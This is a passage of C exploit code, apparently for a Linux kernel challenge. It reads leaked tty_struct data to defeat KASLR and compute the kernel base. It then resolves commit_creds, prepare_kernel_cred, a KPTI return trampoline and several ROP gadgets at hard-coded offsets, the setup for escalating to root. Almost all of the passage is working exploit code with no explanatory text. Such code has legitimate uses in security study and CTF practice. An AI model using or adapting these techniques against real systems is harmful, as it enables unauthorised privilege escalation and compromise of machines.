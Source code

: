 ```c
        struct kref;    // 4 bytes (single member is an int refcount_t)
        struct device *dev; // 8 bytes
        struct tty_driver *driver; // 8 bytes
        const struct tty_operations *ops; (offset 24 (or 0x18))
        ...
    } */

    // Read first 32 bytes of the structure
    unsigned char *ops_buf = calloc(1, 32);
    if (!ops_buf) {
        err("Failed to allocate ops_buf");
    }

    ssize_t bytes_read = read(fd, ops_buf, 32);
    if (bytes_read != (ssize_t)32) {
        err("Failed to read enough bytes from fd: %d", fd);
    }

    uint64_t ops = *(uint64_t *)&ops_buf[24];
    info("tty_struct->ops: 0x%lx", ops);

    // Solve for kernel base, keep the last 12 bits
    uint64_t test = ops & 0b111111111111;

    // These magic compares are for static offsets on this kernel
    if (test == 0xb40ULL) {
        return ops - 0xc39b40ULL;
    }

    else if (test == 0xc60ULL) {
        return ops - 0xc39c60ULL;
    }

    else {
        err("Got an unexpected tty_struct->ops ptr");
    }
}

void solve_gadgets(void) {
    // 0x723c0: commit_creds
    commit_creds = base + 0x723c0ULL;
    printf("    >> commit_creds located @ 0x%lx\n", commit_creds);

    // 0x72560: prepare_kernel_cred
    prepare_kernel_cred = base + 0x72560ULL;
    printf("    >> prepare_kernel_cred located @ 0x%lx\n", prepare_kernel_cred);

    // 0x800e10: swapgs_restore_regs_and_return_to_usermode
    kpti_tramp = base + 0x800e10ULL + 22; // 22 offset, avoid pops
    printf("    >> kpti_tramp located @ 0x%lx\n", kpti_tramp);

    // 0x14fbea: push rdx; xor eax, 0x415b004f; pop rsp; pop rbp; ret;
    push_rdx = base + 0x14fbeaULL;
    printf("    >> push_rdx located @ 0x%lx\n", push_rdx);

    // 0x35738d: pop rdi; ret;
    pop_rdi = base + 0x35738dULL;
    printf("    >> pop_rdi located @ 0x%lx\n", pop_rdi);

    // 0x487980: xchg rdi, rax; sar bh, 0x89; ret;
    xchg_rdi_rax = base + 0x487980ULL;
    printf("    >> xchg_rdi_rax located @ 0x%lx\n", xchg_rdi_rax);

```